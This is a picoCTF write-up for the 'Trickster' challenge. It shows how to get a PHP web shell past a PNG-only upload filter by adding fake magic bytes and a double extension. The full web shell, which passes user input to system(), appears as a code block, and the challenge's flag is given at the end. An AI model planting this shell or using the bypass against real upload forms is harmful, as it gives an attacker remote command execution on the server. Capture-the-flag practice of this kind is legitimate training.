



```
# Trickster

I found a web app that can help process images: PNG images only!
```

The annoying part here is that there's no lead to any hint. The way I proceed is to randomly open a route.

Probably robots.txt? Yep.



Let's see that 'instructions'

Key points:

    * look for ".png" extension
    * magic bytes match

Easy. Create a PHP script to make a shell. But before saving, add `PNG` word at the beginning of file to trick the app.

```php
PNG
<?php
// WARNING: For CTF / local lab use ONLY. This is extremely insecure.
if (isset($_POST['cmd'])) {
    $command = $_POST['cmd'];

    echo "<pre>";
    // Executes shell command and outputs result
    system($command);
    echo "</pre>";
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>CTF Command Box</title>
</head>
<body>
    <h2>Command Execution Box</h2>
    <form method="POST">
        <input type="text" name="cmd" placeholder="Enter shell command" size="50">
        <button type="submit">Run</button>
    </form>
</body>
</html>
```

And don't forget to add `.png` extension in the file name. To make it a PHP script executable by the app, name it as `shell2.png.php` or something.

And... what? Upload it dawg.


How about we navigate to the uploaded file? Probably...



Ez. The rest is yours.



Flag:

```
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_03d1d548}
```
